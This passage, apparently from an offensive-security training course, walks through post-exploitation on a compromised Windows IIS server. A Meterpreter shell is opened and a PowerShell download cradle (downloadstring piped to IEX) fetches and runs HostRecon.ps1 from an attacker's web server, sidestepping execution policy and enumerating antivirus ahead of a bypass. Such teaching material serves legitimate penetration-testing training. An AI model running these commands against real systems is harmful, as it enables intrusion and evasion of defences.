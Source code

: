 > Listing 14 - Migrating into notepad

With this more stable shell, we can start our post-exploitation enumeration. We already know that antivirus is present on this machine, but we would like to determine which product is in place in order to simplify our bypass attempt. We also need to know if the antivirus supports AMSI.

We can use the PowerShell _HostRecon_[2](https://portal.offsec.com/courses/pen-300-9502/learning/combining-the-pieces-14687/combining-the-pieces-14955#fn-local_id_741-2) script to detect a multitude of host-based settings and information. Since this is a PowerShell script, we'll use Meterpreter's shell to open a command prompt, which we can convert to PowerShell.

Next, we'll download the HostRecon.ps1 PowerShell script from our Kali web server and load it into memory with a download cradle:

```
meterpreter > shell
Process 3000 created.
Channel 1 created.
Microsoft Windows [Version 10.0.17763.1282]
(c) 2018 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv> powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\windows\system32\inetsrv> (new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX
(new-object system.net.webclient).downloadstring('http://192.168.119.120/HostRecon.ps1') | IEX
```

> Listing 15 - Downloading and loading HostRecon.ps1

We automatically bypass the PowerShell execution policy with the _Invoke-Expression_ (IEX) cmdlet and execute the Invoke-HostRecon function.

```
PS C:\windows\system32\inetsrv> Invoke-HostRecon
Invoke-HostRecon
[*] Hostname
WEB01
...
[*] Current Domain and Username
Domain = IIS APPPOOL
Current User = DefaultAppPool
...
[*] Checking local firewall status.
The local firewall appears to be enabled.
...
[*] Checking for Local Admin Password Solution (LAPS)
The LAPS DLL was not found.
...
[*] Checking for common security product processes
Possible Windows Defender AV process MsMpEng is running.
...
```
